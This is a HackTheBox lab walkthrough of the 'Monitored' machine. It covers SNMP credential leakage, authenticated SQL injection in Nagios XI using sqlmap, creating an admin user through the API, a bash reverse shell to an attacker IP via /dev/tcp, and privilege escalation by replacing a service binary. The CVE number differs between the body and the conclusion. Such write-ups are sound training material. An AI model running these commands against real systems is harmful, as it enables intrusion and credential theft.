+++ 
draft = false
date = 2024-02-17T13:07:16+01:00
title = "Monitored HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["NMAP UDP", "JohnTheRipper", "CVE-2023-51457", "Dirsearch", "UDP enumeration", "SNMPwalk", "SQLmap", "SQL injection"]
categories = []
externalLink = ""
series = []
+++



The Monitored HTB machine is a medium difficulty level HackTheBox Machine. The main tools and techniques used to crack this machine are:

        - Dirsearch
        - CVE-2023-40931
        - NMAP UDP scan
        - SNMP enumeration with SNMPwalk
        - JohnTheRipper
        - SQL injection with SQLmap


## Reconnaissance

We start a broad Nmap TCP scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.248 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:



THere are a lot of open ports besides 22, 80 and 443. What is interesting is that port 389 (LDAP) is open. Next, we run a more comprehensive scan on the open ports to discover services and versions running on them:

```sh
sudo nmap -sCV -p22,80,389,443,5667,8081 10.10.11.248 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:



However, in this machine, there is more interesting ports to be discovered. This is revealed by running a NMAP UDP scan:

```sh
sudo nmap -sU -p- 10.10.11.248 --defeat-icmp-ratelimit --min-rate 5000 -oN nmap_udp
```
    -sU: UDP scan
    -oN: Normal output format
    --defeat-icmp-ratelimit: Used to speed up the scan since UDP scans take longer
    --min-rate: Specifies the minimum packets/second transmitted

Te results for the UDP scan are the following:



Port 161 is open. Now lets run a more comprehensive scan to see what is running on port 161, which is usually SNMP.

```sh
sudo nmap -sUCV -p161 10.10.11.248
```

    -sUCV: Launches all scanning scripts to discover services and versions running on these ports over UDP.

This scan reveals that, in fact, the service running IS SNMP v2c. This is good because the SNMP reconnaissance can provide a lot of information.



In the meantime, lets use dirsearch to do some subdomain discovery:

```sh
dirsearch -u https://monitored.htb/ --exclude-status 403,404,500
```


There is a interesting /nagios subdirectory. Upon trying to access the website, we are prompted for credentials which we don't have yet.

Adding monitored.htb to /etc/hosts, we can visit the webpage. From there, we can acces the website https://monitored/nagiosxi/login, where we can log in with valid credentials. Default and common credentials don't work either, so we have to keep looking.

### SNMP enumeration

For SNMP enumeration, there is a very good guide on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp). We are going to use SNMPwalk with public credentials to see what information we can get:

```sh
snmpwalk -v2c -c public 10.10.11.248
```
There is a very interesting line where we can see the svc credentials:



## Initial foothold

With this credentials, we can log in to the nagios core portal, https://monitored.htb/nagios. We are greeted with the following panel:



We can not do much here. Doing some research, I have stumbled upon [CVE-2023-40931](https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567). It represents a sql injection possible when authenticated. However, we need an authentication token to make it work. It can be obtained with a POST request to the api:

```sh
curl -ksX POST https://monitored.htb/nagiosxi/api/v1/authenticate --data "username=svc&password=XjH7VCehowpR1xZB"
```

The response is the following:

```sh
{"username":"svc","user_id":"2","auth_token":"6ed830a5d45b3fd199bcabf0dee5940ef39be98a","valid_min":5,"valid_until":"Sat, 17 Feb 2024 17:44:12 -0500"}
```

By specifying the valid_min parameter to a higher numer, the token will be valid for longer.

```sh
curl -ksX POST https://monitored.htb/nagiosxi/api/v1/authenticate --data "username=svc&password=XjH7VCehowpR1xZB&valid_min=1200"
```

```sh
{"username":"svc","user_id":"2","auth_token":"da04dba2da704a7f7a135585fbab1e0d7d75c1a8","valid_min":1200,"valid_until":"Sun, 18 Feb 2024 13:40:19 -0500"}
```

Now we have the necessary ingredients to exploit CVE-2023-40931. We have to make a POST resquest to /nagiosxi/admin/banner_message-ajaxhelper.php with the data action=acknowledge_banner_message&id=3, where the parameter ID is injectable. For this SQL injection, we are going to use SQLmap, an automatic SQLi script.

```sh
sqlmap -u "https://monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<TOKEN>" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
```
By dumping the xi_users table, we get the information of the users of nagiosxi:



	- Nagios Administrator: nagiosadmin
	- apikey: IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL


We can try to also crack the hash using JohnTheRipper



The credentials are:

```sh
nagiosadmin::test123
```

These credentials don't work, so maybe the account is disabled or blocked. However, upon doing some more research, it seems like we can add another user to nagiosxi via the API (https://support.nagios.com/forum/viewtopic.php?t=42923). For this, the apikey we got earlier for the nagiosadmin user will be handy.

```sh
curl -ksX POST "https://monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -d "username=dennis&password=dennis&name=dennis&email=dennis@localhost&auth_level=admin"
```


We now can access the nagiosxi portal using the credentials dennis::dennis. On the configure/Core Config Manager page, we can specify a custom command. This is a perfect way to establish a reverse shell to the underlying system.


We can add the custom command which  will send a reverse shell:


```sh
bash -c 'bash -i >& /dev/tcp/10.10.15.47/1234 0>&1'
```


However, no reverse shell is received. Doing some more digging, we have so set it up as s service. This is achieved in Service Management, editing one of the existing services to run our command.



Now we have access to the underlying system as user nagios. We do some TTy treatment to have a full interactive tty:



## Privilege escalation

Lets see what commands can user nagios execute as root:

```sh
sudo -l
```



There is interesting commands that this user can run. The most interesting one is manage_services.sh. This is what this script does:



It looks like it can manage the services run under the nagios hood. This is interesting because we can maybe hikack this services. This is exactly what we are going to do with the npcd executable: Delete de original one, replace it with our own code and restart the services using manage_services.sh. It should retur a root shell.

```sh
rm /usr/local/nagios/bin/npcd # Delete originl binary
nano /usr/local/nagios/bin/npcd # Create our own script
chmod +x /usr/local/nagios/bin/npcd # Give it +x permmissions
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd # Restart the service
```

The content of the new executable is a new reverse shell, hopefully as root:


And indeed, we now have root access to the system and can read the root flag. The machine is PWNED.



## Conclusion

This machine reveals the importance of not having insecure information avaliable via SNMTP, as this information leak can transform into a very severe security hole. With access to the svc account, we managed to leverage CVE-2023-51457 to access the admin panel and compromise the underlying system.

